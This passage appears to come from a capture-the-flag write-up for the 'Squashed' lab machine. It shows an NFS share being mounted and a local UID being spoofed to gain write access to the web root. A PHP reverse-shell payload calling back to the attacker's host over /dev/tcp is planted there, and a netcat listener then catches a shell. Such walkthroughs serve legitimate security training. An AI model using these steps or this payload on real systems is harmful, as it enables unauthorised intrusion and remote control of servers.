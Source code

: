 > `.Xauthority` stores cookies for authentication of X sessions

```bash
$ strings .Xauthority
squashed.htb
MIT-MAGIC-COOKIE-1

$ cp .Xauthority ~/squashed/www/
```


#### /var/www/html

```bash
┌──(root㉿kali)-[/mnt]
└─# mount -t nfs squashed.htb:/var/www/html /mnt/html 
```

```bash
┌──(root㉿kali)-[/mnt]
└─# ls -ld html 
drwxr-xr-- 5 2017 www-data 4096 Jan 16 09:40 html
```

Add permission to user

```bash
┌──(root㉿kali)-[/mnt]
└─# usermod -u 2017 test1

┌──(root㉿kali)-[/mnt]
└─# su test1             
$ cd html
$ ls -la
total 56
drwxr-xr-- 5 test1 www-data  4096 Jan 16 09:40 .
drwxr-xr-x 5 root  root      4096 Jan 16 09:14 ..
drwxr-xr-x 2 test1 www-data  4096 Jan 16 09:40 css
-rw-r--r-- 1 test1 www-data    44 Oct 21 06:30 .htaccess
drwxr-xr-x 2 test1 www-data  4096 Jan 16 09:40 images
-rw-r----- 1 test1 www-data 32532 Jan 16 09:40 index.html
drwxr-xr-x 2 test1 www-data  4096 Jan 16 09:40 js
```

Upload reverse shell

```bash
$ cat > ok.php << EOF
<?php system('bash -c "bash -i >& /dev/tcp/10.10.14.41/1111 0>&1"') ?>
EOF
```


# User Flag

```bash
┌──(root㉿kali)-[~/squashed]
└─# rlwrap nc -lvnp 1111                   
listening on [any] 1111 ...
connect to [10.10.14.41] from (UNKNOWN) [10.10.11.191] 57282
bash: cannot set terminal process group (1070): Inappropriate ioctl for device
bash: no job control in this shell
alex@squashed:/var/www/html$ ls -la
ls -la
total 60
drwxr-xr-- 5 alex www-data  4096 Jan 16 14:57 .
drwxr-xr-x 3 root root      4096 Oct 21 10:30 ..
-rw-r--r-- 1 alex www-data    44 Oct 21 10:30 .htaccess
drwxr-xr-x 2 alex www-data  4096 Jan 16 14:55 css
```